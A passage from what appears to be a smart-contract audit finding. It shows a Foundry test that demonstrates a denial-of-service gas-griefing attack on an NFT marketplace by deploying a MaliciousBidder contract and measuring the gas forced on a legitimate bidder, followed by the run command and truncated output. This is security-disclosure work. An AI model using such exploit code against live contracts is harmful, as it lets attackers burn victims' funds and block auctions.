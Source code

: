         console.log("=== DoS Attack Cost Analysis ===");
        console.log("Gas price set to:", currentGasPrice, "wei (0.392 gwei)");

        // Let's deploy the maliciousBidder contract
        MaliciousBidder maliciousBidder = new MaliciousBidder(address(market));

        // Gas at the start
        uint256 gasStart = gasleft();

        // placing bid through maliciousBidder contract
        maliciousBidder.bid{value: BID_AMOUNT}(TOKEN_ID);

        uint256 afterMaliciousBidderCall = gasStart - gasleft();
        console.log();
        console.log("MaliciousBidder placed initial bid");
        console.log("Gas used in MaliciousBidder call (normal scenario):", afterMaliciousBidderCall);

        // Now let's play the role of BIDDER_1, which actually decided to buy the nft right away
        uint256 bidderGasStart = gasleft();
        vm.prank(BIDDER_1);
        market.placeBid{value: BUY_NOW_PRICE}(TOKEN_ID);
        console.log();
        console.log("BIDDER_1 placed the next bid");

        uint256 afterBidder1Call = bidderGasStart - gasleft();
        console.log("Gas used in BIDDER_1 call (expensive scenario):", afterBidder1Call);

        // Calculate real-world costs (approx.)
        uint256 costInWei = afterBidder1Call * currentGasPrice;

        console.log();
        console.log("=== ATTACK RESULTS ===");
        console.log("Gas units consumed by victim (BIDDER_1):", afterBidder1Call);
        // Try using https://eth-converter.com/ to convert wei to eth or usd
        console.log("Approximate cost of call in wei:", costInWei, "wei");

        // Check whether `failedTransferCredits` have the amount or not...
        uint256 amount = market.failedTransferCredits(address(maliciousBidder));

        console.log();
        console.log("MaliciousBidder's Balance", address(maliciousBidder).balance);

        // Sometimes `failedTransferCredits` might be non-zero (although that wasn't the case when I run these tests), but still, a lot of gas will be consumed anyway
        console.log("Amount in failedTransferCredits for MaliciousBidder contract:", amount);
    }
    ```

* Run the above test using the command:

    ```bash
    forge test --mt test_dosAttackViaMaliciousContract -vv
    ```

* The output we get:

    ```log
    Ran 1 test for test/BidBeastsMarketPlaceTest.t.sol:BidBeastsNFTMarketTest
    [PASS] test_dosAttackViaMaliciousContract() (gas: 1040287009)
    Logs:
    === DoS Attack Cost Analysis ===
    Gas price set to: 392000000 wei (0.392 gwei)
    
